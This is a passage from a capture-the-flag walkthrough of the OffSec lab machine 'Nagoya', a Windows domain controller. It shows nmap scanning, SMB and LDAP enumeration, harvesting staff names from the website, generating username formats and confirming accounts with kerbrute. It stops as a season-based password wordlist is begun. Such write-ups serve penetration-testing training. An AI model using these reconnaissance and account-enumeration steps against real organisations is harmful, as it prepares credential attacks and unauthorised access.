







# Nagoya

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Advanced
Community Rating: Very Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 30
Number of Flags: 2
Lab Description:
The lab focuses on exploiting enumeration techniques such as SMB enumeration, Kerberoasting, and MSSQL enumeration. 
You'll also learn password cracking methods and ticket generation processes. This lab emphasizes practical skills 
in privilege escalation and credential harvesting.
```

Machine link: [https://portal.offsec.com/machine/nagoya-50426/overview/details](https://portal.offsec.com/machine/nagoya-50426/overview/details)  
Writeup Author: Cajac

## Solution

> [!NOTE]  
> This machine becomes unresponsive after about an hour's uptime and needs to be reverted.

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ export TARGET_IP=192.168.134.21
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ sudo nmap -sC -sV -p- --reason $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-18 12:32 +0100
Nmap scan report for 192.168.134.21
Host is up, received echo-reply ttl 125 (0.037s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 125 (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
80/tcp    open  http              syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Nagoya Industries - Nagoya
88/tcp    open  kerberos-sec      syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2026-11-18 11:34:28Z)
135/tcp   open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack ttl 125
464/tcp   open  kpasswd5?         syn-ack ttl 125
593/tcp   open  ncacn_http        syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 125
3268/tcp  open  ldap              syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 125
3389/tcp  open  ms-wbt-server     syn-ack ttl 125 Microsoft Terminal Services
|_ssl-date: 2026-11-18T11:36:02+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2026-11-17T11:31:27
|_Not valid after:  2027-05-19T11:31:27
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-18T11:35:23+00:00
5985/tcp  open  http              syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            syn-ack ttl 125 .NET Message Framing
49666/tcp open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
49676/tcp open  ncacn_http        syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
49681/tcp open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
49691/tcp open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
49698/tcp open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
49717/tcp open  msrpc             syn-ack ttl 125 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.99%I=7%D=11/18%Time=6AFD8D53%P=x86_64-pc-linux-gnu%r(DNS
SF:-SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x0
SF:4_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-11-18T11:35:23
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.50 seconds
```

We have the following main TCP-services running:

- An unknown [DNS](https://en.wikipedia.org/wiki/Domain_Name_System) server on port 53
- Microsoft [IIS](https://en.wikipedia.org/wiki/Internet_Information_Services) version 10.0 on port 80
- [Kerberos](https://en.wikipedia.org/wiki/Kerberos_(protocol)) on port 88
- [Microsoft Windows RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) on port 135
- [NetBIOS Session Service](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Session_service) on port 139
- An [LDAP](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) server on port 389 and 636
- [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) on port 445
- A [Global Catalog](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728188(v=ws.10)) service on ports 3268 and 3269
- [Microsoft Terminal Services (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) on port 3389
- A [WinRM](https://en.wikipedia.org/wiki/Windows_Remote_Management) service on port 5985

In short, this is a Windows domain controller for the domain `nagoya-industries.com`.

### Update /etc/hosts

For convenience we will update our `/etc/hosts` file with the help of NetExec.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP --generate-hosts-file hosts.txt
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.134.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ cat hosts.txt 
192.168.134.21     NAGOYA.nagoya-industries.com nagoya-industries.com NAGOYA

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ sudo vi /etc/hosts 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ tail -n2 /etc/hosts
192.168.134.21     NAGOYA.nagoya-industries.com nagoya-industries.com NAGOYA

```

### Further Enumeration via SMB/RPC/LDAP

Next, we check for shares with NetExec but find none.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP -u '' -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.134.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 
SMB         192.168.134.21  445    NAGOYA           [+] nagoya-industries.com\: 
SMB         192.168.134.21  445    NAGOYA           [-] Error enumerating shares: STATUS_ACCESS_DENIED
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP -u Cajac -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.134.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 
SMB         192.168.134.21  445    NAGOYA           [-] nagoya-industries.com\Cajac: STATUS_LOGON_FAILURE 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP -u Guest -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.134.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 
SMB         192.168.134.21  445    NAGOYA           [-] nagoya-industries.com\Guest: STATUS_ACCOUNT_DISABLED 
```

We also try to enumerate users but fail there as well.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP -u '' -p '' --users
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.134.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 
SMB         192.168.134.21  445    NAGOYA           [+] nagoya-industries.com\: 
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc ldap $TARGET_IP -u '' -p '' --users
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.134.21  389    NAGOYA           [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5E, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
LDAP        192.168.134.21  389    NAGOYA           [+] nagoya-industries.com\: 
LDAP        192.168.134.21  389    NAGOYA           [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5E, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### Analyse the web site

Manually browsing to `http://192.168.134.21/` we find the homepage of Nagoya Industries:



On `http://192.168.134.21/Team` we find firsts and last names of the team. We save them with `curl` and some `awk` processing.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ curl -s http://$TARGET_IP/Team | html2text | awk 'NF==2 && $1 != "First" && $1 != "*"'
Matthew     Harrison
Emma        Miah
Rebecca     Bell
Scott       Gardner
Terry       Edwards
Holly       Matthews
Anne        Jenkins
Brett       Naylor
Melissa     Mitchell
Craig       Carr
Fiona       Clark
Patrick     Martin
Kate        Watson
Kirsty      Norris
Andrea      Hayes
Abigail     Hughes
Melanie     Watson
Frances     Ward
Sylvia      King
Wayne       Hartley
Iain        White
Joanna      Wood
Bethan      Webster
Elaine      Brady
Christopher Lewis
Megan       Johnson
Damien      Chapman
Joanne      Lewis

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ curl -s http://$TARGET_IP/Team | html2text | awk 'NF==2 && $1 != "First" && $1 != "*"' > usernames.txt  
```

### Create a custom username file

Then we use [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to create a list of possible username in the formats:

- first.last
- f.last
- flast
- last.f
- lastf

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ ./username-anarchy -i usernames.txt -f first.last,f.last,flast,last.f,lastf
matthew.harrison
m.harrison
mharrison
harrisonm
harrison.m
emma.miah
e.miah
emiah
miahe
miah.e
rebecca.bell
r.bell
rbell
bellr
bell.r
scott.gardner
s.gardner
sgardner
gardners
gardner.s
terry.edwards
t.edwards
tedwards
edwardst
edwards.t
holly.matthews
h.matthews
hmatthews
matthewsh
matthews.h
anne.jenkins
a.jenkins
ajenkins
jenkinsa
jenkins.a
brett.naylor
b.naylor
bnaylor
naylorb
naylor.b
melissa.mitchell
m.mitchell
mmitchell
mitchellm
mitchell.m
craig.carr
c.carr
ccarr
carrc
carr.c
fiona.clark
f.clark
fclark
clarkf
clark.f
patrick.martin
p.martin
pmartin
martinp
martin.p
kate.watson
k.watson
kwatson
watsonk
watson.k
kirsty.norris
k.norris
knorris
norrisk
norris.k
andrea.hayes
a.hayes
ahayes
hayesa
hayes.a
abigail.hughes
a.hughes
ahughes
hughesa
hughes.a
melanie.watson
m.watson
mwatson
watsonm
watson.m
frances.ward
f.ward
fward
wardf
ward.f
sylvia.king
s.king
sking
kings
king.s
wayne.hartley
w.hartley
whartley
hartleyw
hartley.w
iain.white
i.white
iwhite
whitei
white.i
joanna.wood
j.wood
jwood
woodj
wood.j
bethan.webster
b.webster
bwebster
websterb
webster.b
elaine.brady
e.brady
ebrady
bradye
brady.e
christopher.lewis
c.lewis
clewis
lewisc
lewis.c
megan.johnson
m.johnson
mjohnson
johnsonm
johnson.m
damien.chapman
d.chapman
dchapman
chapmand
chapman.d
joanne.lewis
j.lewis
jlewis
lewisj
lewis.j
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ ./username-anarchy -i usernames.txt -f first.last,f.last,flast,last.f,lastf > usernames2.txt
```

### Verify usernames

To verify which username format is used we use `kerbrute`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ kerbrute userenum -d nagoya-industries.com --dc $TARGET_IP usernames2.txt

    __             __               __ 
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/ 

Version: v1.0.3 (9dad6e1) - 11/18/26 - Ronnie Flathers @ropnop

2026/11/18 13:40:52 >  Using KDC(s):
2026/11/18 13:40:52 >   192.168.134.21:88

2026/11/18 13:40:52 >  [+] VALID USERNAME:       matthew.harrison@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       emma.miah@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       rebecca.bell@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       scott.gardner@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       terry.edwards@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       holly.matthews@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       anne.jenkins@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       brett.naylor@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       melissa.mitchell@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       craig.carr@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       fiona.clark@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       patrick.martin@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       kate.watson@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       kirsty.norris@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       andrea.hayes@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       abigail.hughes@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       frances.ward@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       melanie.watson@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       sylvia.king@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       wayne.hartley@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       iain.white@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       joanna.wood@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       bethan.webster@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       elaine.brady@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       christopher.lewis@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       megan.johnson@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       damien.chapman@nagoya-industries.com
2026/11/18 13:40:52 >  [+] VALID USERNAME:       joanne.lewis@nagoya-industries.com
2026/11/18 13:40:52 >  Done! Tested 140 usernames (28 valid) in 0.538 seconds

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ kerbrute userenum -d nagoya-industries.com --dc $TARGET_IP usernames2.txt | grep VALID | awk '{print $7}' 
emma.miah@nagoya-industries.com
matthew.harrison@nagoya-industries.com
rebecca.bell@nagoya-industries.com
scott.gardner@nagoya-industries.com
terry.edwards@nagoya-industries.com
holly.matthews@nagoya-industries.com
anne.jenkins@nagoya-industries.com
brett.naylor@nagoya-industries.com
melissa.mitchell@nagoya-industries.com
craig.carr@nagoya-industries.com
fiona.clark@nagoya-industries.com
patrick.martin@nagoya-industries.com
kate.watson@nagoya-industries.com
kirsty.norris@nagoya-industries.com
andrea.hayes@nagoya-industries.com
abigail.hughes@nagoya-industries.com
melanie.watson@nagoya-industries.com
frances.ward@nagoya-industries.com
sylvia.king@nagoya-industries.com
wayne.hartley@nagoya-industries.com
iain.white@nagoya-industries.com
joanna.wood@nagoya-industries.com
bethan.webster@nagoya-industries.com
elaine.brady@nagoya-industries.com
christopher.lewis@nagoya-industries.com
megan.johnson@nagoya-industries.com
damien.chapman@nagoya-industries.com
joanne.lewis@nagoya-industries.com

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ kerbrute userenum -d nagoya-industries.com --dc $TARGET_IP usernames2.txt | grep VALID | awk '{print $7}' | sed -E 's/(.*)@.*/\1/' 
matthew.harrison
emma.miah
rebecca.bell
scott.gardner
terry.edwards
holly.matthews
brett.naylor
anne.jenkins
melissa.mitchell
craig.carr
fiona.clark
patrick.martin
kirsty.norris
kate.watson
andrea.hayes
abigail.hughes
melanie.watson
frances.ward
sylvia.king
wayne.hartley
iain.white
joanna.wood
bethan.webster
elaine.brady
christopher.lewis
megan.johnson
damien.chapman
joanne.lewis
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ kerbrute userenum -d nagoya-industries.com --dc $TARGET_IP usernames2.txt | grep VALID | awk '{print $7}' | sed -E 's/(.*)@.*/\1/' > usernames3.txt
```

### Create a custom password wordlist

We also need a custom password wordlist and the main format will be `<season><year><optional_special_char>`. But we also add the name of the machine.

According to the web site it was made in 2023 so we use either 2022 or 2023 for the year.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ vi seasons.txt
 
